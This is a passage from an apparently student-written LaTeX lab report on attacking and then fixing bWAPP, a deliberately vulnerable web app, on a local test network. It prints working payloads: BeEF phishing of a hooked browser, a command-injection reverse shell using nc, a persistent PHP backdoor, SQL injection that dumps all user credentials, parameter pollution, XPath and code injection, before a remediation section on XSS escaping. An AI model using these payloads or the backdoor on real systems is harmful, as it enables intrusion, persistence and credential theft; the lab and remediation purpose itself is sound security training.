Now, from the Commands tab, we can send malicious comamnds to this user. For example, we can send them a popout that they need to login again into their facebook account. \ref{fig:send-pretty-theft}
After clicking the Execute button, the user is less prepared for this to be a phishing attempt, because they are on a site they trust and is more likely that they will fill the data requested by the phishing attempt. \ref{fig:filling-phishing-attempt}
When the user presses log in, the data is send to the attacker and the phishing attack has a succes. \ref{fig:filling-phishing-attempt}


\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/beef/send-pretty-theft.png}
    \caption{\label{fig:send-pretty-theft}How we can send a phishing attack using beef}
\end{figure}

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/beef/filling-phishing-attempt.png}
    \caption{\label{fig:filling-phishing-attempt}How the phishing attack looks for the user}
\end{figure}

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/beef/data-received.png}
    \caption{\label{fig:data-received}The collected data from the user}
\end{figure}

\subsubsection{OS Command Injection}
So far we have tried to run a sleep command to check if the payload works. Now that we know that it does, we can exploit it.
We can get a reverse shell using the command nc <attacker\_ip> <attacker\_port> -e /bin/bash.
In our case, nc 10.0.2.15 4747 -e /bin/bash.

So the full payload, in our case is 127.0.0.1|nc 10.0.2.15 4747 -e /bin/bash.

Before sending this payload, we run on the attacker host the command nc -lvp 4747 to listen for incoming connections.

After the payload is send, we can see a new connection and we have access to the host terminal.
Because the host also has python installed, we can easily turn this into an interactive terminal running the command python -c "import pty; pty.spawn('/bin/bash')"
\ref{fig:inject-code}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/command-injection/inject-code.png}
    \caption{\label{fig:inject-code}The injected code}
\end{figure}

In case this vulnerability gets fixed, we can now install a backdoor into the server so we will still have access to it.
For this, we will insert a php script that gives a reverse shell.\ref{php:backdoor}

\begin{lstlisting}[language=php,caption={Backdoor Code},label=php:backdoor]
    <?php
    exec("nc " . $_GET["server"] . " " . $_GET["port"] . " -e /bin/bash");"
    \end{lstlisting}

And we can write this backdoor using our reversed shell.
\begin{lstlisting}[language=bash,caption={Backdoor Code in bash},label=bash:backdoor]
    echo "<?php
    exec(\"nc \".\$_GET[\"server\"].\" \".\$_GET[\"port\"].\" -e /bin/bash\");"
    \end{lstlisting}

We piped the command \ref{bash:backdoor} into the file inserted\_backdoor.php and now when we acces the url "http://10.0.2.4/bWAPP/inserted\_backdoor.php?server=10.0.2.15 \&port=4747",
the server will give us a reverse shell. \ref{fig:backdoor-installed}

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/command-injection/backdoor-installed.png}
    \caption{\label{fig:backdoor-installed}How to connect to the server after the backdoor has installed}
\end{figure}
\label{}

\textcolor{blue}{-- commands provided to extract data}

\textcolor{blue}{-- screenshots}

\subsubsection{SQL injection}
\label{section:sql-injection-exploit}
After testing that "1' -- -" is a valid string that is sent to the server and deducing that the query given to the DB by the server to get the searched movies is “SELECT * FROM movies WHERE title LIKE '\%\%'", we can use this to our advantage to exploit the database. The first thing we can do is query “1’ order by 1 -- “, which will of course give us no movies, but no error. We do this multiple times with an ever-increasing number until we reach “1’ order by 8 --“ which will finally give us an error, confirming the fact that we are dealing with 7 columns in the movie table.
Then, we input “1' union select 1,2,3,4,5,6,7 -- -” to find out the number of each column represented on the site’s searched movie table. \ref{fig:sqliattack-1}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/sqli/sqliattack-1.png}
    \caption{\label{fig:sqliattack-1}Columns}
\end{figure}
Knowing this information we can replace one of the numbers shown in one of the columns with what we , the attacker, actually want to see in that specific column. For example, we query “1’ union select 1,version(),3,4,5,6,7 -- -”. \ref{fig:sqliattack-2}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/sqli/sqliattack-2.png}
    \caption{\label{fig:sqliattack-2}Column showing version()}
\end{figure}
Next, we query "select GROUP\_CONCAT(table\_name,'\textbackslash n') from information\_schema.tables where table\_type='BASE TABLE'" to find out the names of all tables in the database. \ref{fig:sqliattack-3}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/sqli/sqliattack-3.png}
    \caption{\label{fig:sqliattack-3}Column showing table names}
\end{figure}
We see a table named "users". Knowing that such a table exists, we input "select GROUP\_CONCAT(column\_name,'\textbackslash n') from information\_schema.columns where table\_name='users'". \ref{fig:sqliattack-4}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/sqli/sqliattack-4.png}
    \caption{\label{fig:sqliattack-4}Column showing “users” table’s columns}
\end{figure}
Finally, we input "select GROUP\_CONCAT(login,":",password,"\textbackslash n") from users" to find out the account credentials of all registered users. \ref{fig:sqliattack-5}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/sqli/sqliattack-5.png}
    \caption{\label{fig:sqliattack-5}Column showing all account credentials}
\end{figure}

\subsubsection{HTTP Parameter Pollution}
\label{section:http-parameter-pollution-exploit}
Knowing its vulnerabilities to HTTP parameter pollution, we use the web app, we go through all the procedures in order to vote for our favorite movie (in this case, Iron Man) and on the end page, we have this URL: \ref{fig:httpattack-1}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/httppp/http-attack1.png}
    \caption{\label{fig:httpattack-1}Normal end URL}
\end{figure}
We can observe that the Iron Man movie’s id is 2. We want to tamper with the parameters such that Iron Man always wins. Therefore, we shall use the structure of the URL and the fact that PHP only registers the last appearance of a parameter in an HTTP request and query this username: \ref{fig:httpattack-2}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/httppp/http-attack2.png}
    \caption{\label{fig:httpattack-2}Suspicious username}
\end{figure}
In the end our URL will look like this and the final page will show that we have voted for Iron Man no matter what we actually choose. \ref{fig:httpattack-3}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/httppp/http-attack3.png}
    \caption{\label{fig:httpattack-3}Suspicious end URL}
\end{figure}

\subsection{SQL Injection}
In the page under the test, there was no sanitization of the input parameters, so SQL Injection was allowed. To see this in work, we can input the following text to gather the current database name: \textit{1' union select 1,database(),2,3,4,5,6,7,8 -- -}. The previous injection will stop the current search query and union the result with the a new row which contains the current database name and stop by next SQL statement by adding the comment characters at the end of the statement. The result can be observed in the Figure \ref{fig:defensive-sql-injection}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/sql-injection.PNG}
    \caption{SQL Injection}
    \label{fig:defensive-sql-injection}
\end{figure}

\subsection{XPath}
The data is read from a XML saved on the disk. We will try to gather all the data from the XML file. In this page, we can search for movies by their genre selected from a dropdown. To do that, we will send the following value for the genre param, \textit{'])child::node()}. This will expose the entire XML content in the table, as can be seen in Figure \ref{fig:defensive-xpath}. The previous statement will stop the current XML search and append a new function which will print the entire node of that selected element.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/xpath.PNG}
    \caption{XPath}
    \label{fig:defensive-xpath}
\end{figure}
\subsection{Code Injection}
The page prints a message which is sent by the user. Because the print is made at the operating system level, this opens to vulnerabilties, if input is not properly sanitized. We will send the following value for the message field, \textit{system("ls -la")}. The previous statement will print the entire files found on the disk, as can be observed in the Figure \ref{fig:defensive-code-injection}.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/code-injection.PNG}
    \caption{Code injection}
    \label{fig:defensive-code-injection}
\end{figure}
\section{Remediation Steps}
\label{}

\subsection{Offensive approach}

\subsubsection{XSS attack}
\label{xss-attack}
To find out how we can remediat this attack, we need to see the source code.


\begin{lstlisting}[language=php, caption={XSS Code},label=php:xss-attack]
while($row = $recordset->fetch_object())
{

    if($_COOKIE["security_level"] == "2")
    {



?>
        <tr height="40">

            <td align="center"><?php echo $row->id; ?></td>
            <td><?php echo $row->owner; ?></td>
            <td><?php echo $row->date; ?></td>
            <td>
            <?php echo htmlspecialchars($row->entry, ENT_QUOTES, "UTF-8"); ?>
            </td>

        </tr>

<?php

    }

    else
        
        if($_COOKIE["security_level"] == "1")
        {

?>
        <tr height="40">

            <td align="center"><?php echo $row->id; ?></td>
            <td><?php echo $row->owner; ?></td>
            <td><?php echo $row->date; ?></td>
            <td><?php echo addslashes($row->entry); ?></td>

        </tr>

<?php

        }
        
        else        

            {

?>
        <tr height="40">

            <td align="center"><?php echo $row->id; ?></td>
            <td><?php echo $row->owner; ?></td>
            <td><?php echo $row->date; ?></td>
            <td><?php echo $row->entry; ?></td>

        </tr>

<?php          

            }

}
\end{lstlisting}

The relevant section is \label{php:xss-attack}, where we can see how the data is displayed.
When the security level is 0, or low, they don't attempt to process the data and sends it into a html page as it is. This allows XSS and html injection attacks.
When the security level is 1, or medium, they prepare the string using the addslashes php function.
This function does the following:


addslashes - returns a string with backslashes before characters that need to be quoted in database queries etc.
These characters are single quote ('), double quote ("), backslash (\textbackslash) and NUL (the NULL byte).


This doesn't say anything about < and > caracters, as this function is used to prevent SQL Injection attacks, not XSS attacks.
So the medium difficulty also doesn't prevent the attack described in section \ref{section:xss-store-exploit}.

The high security level, when security\_level is set to 2, is how we can remediate this error.
Using the correct function, htmlspecialchars, it escapes all html special caracters and the script no longer works. \ref{fig:no-longer-works}

\begin{figure}
    \centering
